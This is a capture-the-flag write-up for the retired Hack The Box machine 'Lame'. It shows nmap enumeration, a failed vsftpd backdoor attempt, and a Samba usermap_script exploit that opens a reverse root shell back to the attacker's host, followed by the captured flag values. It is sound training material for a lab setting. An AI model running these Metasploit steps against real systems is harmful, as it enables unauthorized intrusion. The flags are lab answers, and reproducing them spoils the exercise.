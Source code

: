 # Hack The Box - Lame (10.10.10.3)

## 🧠 Summary

**Lame** is a retired Linux machine that showcases basic enumeration and exploitation of vulnerable services. The box includes vulnerable versions of **vsftpd** and **Samba**, allowing for Metasploit-based exploitation. Ultimately, we gain a root shell through the `user_map_script` Samba exploit (CVE-2007-2447).

---

## 🔍 Enumeration

### 🔹 Nmap

```bash
nmap -p- lame.htb --min-rate 5000
nmap -p 21,22,139,445 -sC -sV lame.htb -oN nmap_alert
```

**Open Ports:**
- 21/tcp – vsftpd 2.3.4 (anonymous FTP login allowed)
- 22/tcp – SSH (OpenSSH 4.7p1)
- 139, 445/tcp – Samba smbd 3.0.20

---

## 💥 Exploitation

### 1. ⚠️ VSFTPD Backdoor Attempt (CVE-2011-2523)

```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(...) > set RHOSTS lame.htb
msf6 exploit(...) > run
[*] Exploit completed, but no session was created.
```

> 📌 Likely blocked by local firewall or patched.

---

### 2. 🎯 Samba Usermap Script Exploit (CVE-2007-2447)

```bash
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(...) > set RHOSTS lame.htb
msf6 exploit(...) > set LHOST 10.10.14.12
msf6 exploit(...) > run
```

**Result:**
```bash
[*] Command shell session 1 opened (10.10.14.12:4444 -> 10.10.10.3:42271)
```

---

## 🏁 Flags

```bash
cat /home/makis/user.txt
599b4dfc6f9118692e6238451b0b19df

cat /root/root.txt
7b81765f6ee8a59bb4d7de5df85e1903
```

---

## 📌 Notes

- The **vsftpd exploit failed**, likely due to firewall blocking reverse connections.
- The **Samba usermap script** vulnerability provided immediate root shell.
- This box is ideal for beginners learning how to enumerate and use Metasploit effectively.

---

*Writeup by [inkedqt](https://github.com/inkedqt)*
